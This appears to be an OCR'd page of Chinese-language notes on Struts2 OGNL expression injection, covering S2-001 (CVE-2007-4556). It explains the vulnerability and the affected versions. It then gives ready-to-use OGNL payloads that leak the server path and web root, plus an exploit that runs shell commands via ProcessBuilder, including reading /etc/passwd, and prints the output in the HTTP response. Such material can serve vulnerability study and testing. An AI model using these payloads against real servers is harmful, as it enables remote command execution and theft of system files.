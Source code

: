 OGN L 的上下文环境是一个 Map 结构，称之为 OgnlContext。上面我们提到的根对象（Root Object），也会被加入到上下文环境中去，并且这将作为一个特殊的变量进行处理，具体就表现为针对根对象（RootObject）的存取操作的表达式是不需要增加#符号进行区分的。

触发途径
通过对一系列的 struts2 的 poc 观察，一般是通过修改 StaticMethodAccess 或是创建

ProcessBuilder 对象。

`_memberAccess["allowStaticMethodAccess"]=true `// 用来授权允许调用静态方法或
`new java.lang.ProcessBuilder(new java.lang.String[]{'cat','/etc/passwd'})).start()`

但 struts2 加强了 ognl 的验证，allowStaticMethodAccess 已经变成的 final 属性，但是任然有方法可以绕过。

## s2-001(CVE-2007-4556)

* 原理

    该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行

* 影响版本

    Struts 2.0.0 - Struts 2.0.8

* 特征

    框内输入%{1+2}会把其中的value值进行计算，返回3

* POC

    >Get the tomcat path:

    ```java
     
     
    %{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
    ```

    >Get the web site real path:

    ```java

    %{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
    ```

* EXP

    >Execute command (command with parameter:new java.lang.String[]{"cat","/etc/passwd"}):

    ```java
    
    %{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
    ```

* 工具

